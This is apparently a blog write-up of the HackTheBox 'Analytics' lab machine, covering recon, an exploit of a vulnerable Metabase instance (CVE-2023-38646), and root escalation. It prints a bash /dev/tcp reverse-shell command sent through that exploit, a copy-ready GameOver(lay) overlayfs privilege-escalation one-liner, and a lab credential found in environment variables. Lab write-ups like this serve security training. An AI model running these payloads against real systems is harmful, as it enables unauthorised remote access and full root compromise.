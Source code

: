 ```yaml
---
layout: post
title: Analytics writeup (HackTheBox)
author: wizarddos
category: Hacking
excerpt_separator: <!--more-->
---
```


Hi there - that's my first Hack The box writeup.
Today, I'll cover [Analytics](https://app.hackthebox.com/machines/569) box
So, off we go
<!--more-->
## Recon
First - I started rustscan
```
$ rustscan -a $IP
```
And it gave me 2 ports `22` and `80` - let's enumerate further
```
$ nmap -sC -sV -oN scan.txt $IP -p22,80    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-25 15:14 CET
Nmap scan report for 10.10.11.233
Host is up (0.033s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We have also found a new domain - `http://analytical.htb/`
Add it to `/etc/hosts` with IP address 
```
$ sudo nano /etc/hosts
```
And then in new line
```
[Machine IP]      analytical.htb
```
Close editor with `Ctrl-X` and get to the site
## Website enumeration

In source code, we can see another subdomain - `data.analytical.htb`

Append it to `/etc/hosts` as well
```
$ echo "[Machine IP]    data.analytical.htb"
```

In there, we have **metabase** instance deployed
![Image of the login page](https://images.prismic.io/superpupertest/119ff6a6-3a33-47ba-a5ea-1fbe3c0ff516_metabase-login-page-in-browser.webp?auto=format&w=680&h=398.253&dpr=3)
(as for some reason, I can't access to this machine - Image comes from [Maddevs' writeup](https://maddevs.io/writeups/hackthebox-analytics/))
{: .subtext}

We don't need to brute-force the password - as there is one exploit for this particular version of metabase

**CVE-2023-38646**

You can get the exploit from [this Github repo](https://github.com/m3m0o/metabase-pre-auth-rce-poc)

As _Usage_ section says
> The script needs the target URL, the setup token and a command that will be executed. The setup token can be obtained through the /api/session/properties endpoint. Copy the value of the setup-token key.

So, we go to `http://data.analytical.htb/api/session/properties` and copy `setup-token` value

First, set up netcat listener so we can get reverse shell connection
```
$ nc -lvnp 2000
```
Then, we can utilize this exploit
```
$ python3 main.py -u http://data.analytical.htb -t [Your copied token] -c "bash -i 1>& /dev/tcp/[Your IP]/2000 0>&1"
```

When it's executed - in terminal with netcat, we should have operating shell

## Privilege escalation

We can't really run `sudo`, nor any `cronjobs` are present

Maybe enviromental variables?

```
$ env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=d0ca4e533c16
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/metabase.db
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
OLDPWD=/
```

We have 2 interesting values
```
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

Actually, this credentials can be used to log into SSH and exit the container we are in
```
$ ssh metalytics@analytical.htb
```

So, inside SSH we can find `user.txt` file
```
cat user.txt
[REDACTED]
```

### Getting Root

This system is vulnerable to **GameOver(lay)** exploit

It consists of **CVE-2023-2640** and **CVE-2023-32629**

If you want to know more - check [CrowdStrike publication](https://www.crowdstrike.com/blog/crowdstrike-discovers-new-container-exploit/) about it

Right now, we can exploit it with simple payload
```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
```

(I didn't add thath `$` by default - so you can copy it)

Then, we should have root - get the flag

```
# cat /root/root.txt
[REDACTED]
```

And, that's it
Machine Pwned

## Conclusion

I hope this walkthrough helped you - I actually liked hacking this machine

I've learned new exploits and overall pracised my enumeration skills

So, that's it - see you next time